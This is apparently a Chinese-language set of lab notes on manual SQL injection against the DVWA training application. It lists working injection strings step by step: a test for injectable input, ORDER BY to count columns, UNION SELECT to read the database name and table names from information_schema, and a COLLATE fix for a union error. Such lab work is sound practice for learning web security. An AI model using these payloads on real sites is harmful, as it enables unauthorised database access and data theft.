 **1.判断是否存在注入，注入是字符型还是数字型** 

```
输入1 
输入1' and '1'='1 
输入1' and '1'='2
输入1' or '1'=1
```

**2.猜解SQL查询语句中的字段数**

```
输入1′ or 1=1 order by 1 #
输入1′ or 1=1 order by 2 #
...
输入1′ or 1=1 order by n #
```

**3.确定显示的字段顺序**

输入1' union select 1,2 #

![image-20221113153425072](assets/image-20221113153425072.png)

说明执行的SQL语句为select First name,Surname from 表 where ID='id'…

**4.获取当前数据库**

```
输入1' union select 1,database() #
```

可得数据库名为```dvwa```

**5.获取数据库中的表**

```
输入1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

==若报错：Illegal mix of collations for operation 'UNION'== 改为

```
输入1' union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database() #
```

![image-20221113154139644](assets/image-20221113154139644.png)
